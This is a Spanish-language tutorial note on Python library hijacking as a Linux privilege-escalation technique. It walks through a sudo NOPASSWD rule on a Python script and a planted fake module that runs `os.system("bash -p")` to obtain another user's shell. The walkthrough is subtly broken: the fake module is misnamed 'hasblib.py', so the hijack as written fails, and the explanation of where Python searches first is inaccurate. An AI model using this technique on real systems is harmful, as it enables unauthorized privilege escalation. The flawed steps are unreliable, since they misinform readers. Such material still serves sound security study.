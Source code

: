 # Python Library Hijacking

Tags: #Linux #PythonHijacking  #Escalada #Root #Privilegios

Cuando hablamos de ‘**Python Library Hijacking**‘, a lo que nos referimos es a una técnica de ataque que aprovecha la forma en la que Python busca y carga bibliotecas para inyectar código malicioso en un script. El ataque se produce cuando un atacante crea o modifica una biblioteca en una ruta accesible por el script de Python, de tal manera que cuando el script la importa, se carga la versión maliciosa en lugar de la legítima.

La forma en que el ataque se lleva a cabo es la siguiente: el atacante busca una biblioteca utilizada por el script y la reemplaza por su propia versión maliciosa. Esta biblioteca puede ser una biblioteca estándar de Python o una biblioteca externa descargada e instalada por el usuario. El atacante coloca su versión maliciosa de la biblioteca en una ruta accesible antes de que la biblioteca legítima sea encontrada.

En general, Python comienza buscando estas bibliotecas en el directorio actual de trabajo y luego en las rutas definidas en la variable sys.path. Si el atacante tiene acceso de escritura en alguna de las rutas definidas en sys.path, puede colocar allí su propia versión maliciosa de la biblioteca y hacer que el script la cargue en lugar de la legítima.

Además, el atacante también puede crear su propia biblioteca en el directorio actual de trabajo, ya que Python comienza la búsqueda en este directorio por defecto. Si durante la carga de estas librerías desde el script legítimo, el atacante logra secuestrarlas, entonces conseguirá una ejecución alternativa del programa.


## Python Hijacking

Para este tipo de escalada, podemos encontrar un archivo de la siguiente manera. 

```bash 
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
	
	# (ALL : ALL) ALL
	# (omar) NOPASSWD: /usr/bin/python3 /tmp/example.py
# Podemos ejecutar ese archivo.py python3 como 'omar' y se encuentra en esa ruta 
```

```bash 
❯ sudo -u omar python3 /tmp/example.py           # Forma correcta de ejecutar un archivo cuando es de otro usuario sin proporcionar una passwd
```

Este es el contenido del archivo example.py
```python 
import hashlib

if __name__ == "__main__":
	cadena = "Hola esta es mi cadena"
	print(hashlib.md5(cadena.encode()).hexdigest())
```

Podemos observar el PATH de Python.
```python
❯ python3 -c 'import sys; print(sys.path)'

['', '/usr/lib/python39.zip', '/usr/lib/python3.9', '/usr/lib/python3.9/lib-dynload', '/usr/local/lib/python3.9/dist-packages', '/usr/lib/python3/dist-packages']
```

* El nivel de prioridad va de izquierda a derecha

Al momento de importar la librería 'hashlib', el sistema lo busca en el PATH de Python y después de encontrarla lo importa. 
* El riesgo de este tipo de ataque viene de la primer cadena vacía **' '** del PATH de Python y hace alusión al directorio actual de trabajo.

Por lo que para poder hacer este tipo de ataque, debemos de crear un archivo que se llame como la librería que se esta importando.
```python
❯ nano hasblib.py
❯ chmod +x hasblib.py

# Dentro del archivo agregamos lo que queremos que haga

import os 
os.system("bash -p")         # Importaremos la libreria OS, para que a nivel de sistema se encargue de lanzar una consola interactiva bash p = privilege
```

 Después volveremos a ejecutar el example.py y al momento de importar la librería 'hashlib' el sistema lo primero que hará  será buscar en nuestra ruta de trabajo, y es ahí donde nosotros tenemos un archivo llamado hashlib el cual lo ejecutara, lo que ocasionara que al momento de la ejecución este importe la librería OS y nos de una bash interactiva con el nombre del usuario que en este caso es Omar.

* Si logramos alterar la **librería original**, podemos modificarlo para que al inicio de el podamos importar la librería OS y nos pueda dar una consola interactiva. 